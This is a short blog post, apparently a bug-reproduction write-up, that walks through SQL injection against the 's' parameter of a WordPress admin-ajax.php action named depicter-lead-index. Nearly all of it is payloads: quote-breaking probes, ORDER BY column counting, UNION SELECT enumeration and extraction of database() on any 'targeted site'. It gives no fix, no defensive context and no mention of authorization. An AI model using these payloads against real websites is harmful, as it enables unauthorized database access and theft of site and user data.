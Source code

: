 ```yaml
---
title: WordPress Ajax Admin SQL Injection
description: Steps to Reproduce a bug
date: 2025-10-21 12:00:00
categories: [Bugs, Steps to Reproduce]
tags: [wordpress,wp,sqli,sql,injection]
render_with_liquid: false
media_subpath: /images/2025-10-21-WP-Ajax-Admin-SQL-Injection
image:
  path: UNKNOWN.png
---
```


## Steps to Reproduce a SQL Injection but on a Wordpress Ajax Admin.

- Load Targeted Site’s URL in **CyberFox**
- Check the source page and find if there is any WordPress Link for example `wp-content` or use `wappalyzer` to confirm the website is a WordPress Site.
Add `/wp-admin/admin-ajax.php?s=10&prepage=20&page=1&orderBy=source_id&dataEnd&dataStart&order=DESC&sources&action=depicter-lead-index` at the end of the URL and you will see something like `{"hasMore":false,"page":1,"perpage":10,"totalPages":1,"totalHits":null,"hits":[],"commonFields":[]}`

### SQLi Testing

**Parameter `?s=10` is the injection point.**

- First try with a `'` single quotes.
- Then `?s=10' -- -`
- Then `?s=10%23`
- Then `?s=10\`
- Then `?s=10\’`
- Then `?s=10'\`
- Then `?s=10"`
- Try `?s=10')`
- Try `?s=10")`
- Try `?s=10))`
- Try `?s=10)))`

After try all of those if you don’t see any error then try to bind order by with the payload.
- Try `?s=10 order by 20` and decrease it.
- Try `?s=10 order by 20 --` and decrease it.
- Try `?s=10 order by 20%23` and decrease it.
- Try `?s=10' order by 20-- -` and decrease it.
- Try `?s=10\ order by 20-- -` and decrease it.
- Try `?s=10\' order by 20-- -` and decrease it.

After all of those if you don’t see any error then try union brute force.
- Try `?s=10+Union+All+Select+1,2,3,4,5,6,7,8,9..20` and decrease it.
- Try `?s=10+Union+All+Select+1,2,3,4,5,6,7,8,9..20--` and decrease it.
- Try `?s=10' Union+All+Select+1,2,3,4,5,6,7,8,9..20-- -` and decrease it.
- Try `?s=10) Union+All+Select+1,2,3,4,5,6,7,8,9..20--` and decrease it.
- Try `?s=10') Union+All+Select+1,2,3,4,5,6,7,8,9..20-- -` and decrease it.

After that see which number is reflected on the webpage for example `4` is reflected on the web page, replace the 4 with a string to confirming `"Unknown"` also you can check for `database()` .

> Complete ✅
{: .prompt-tip}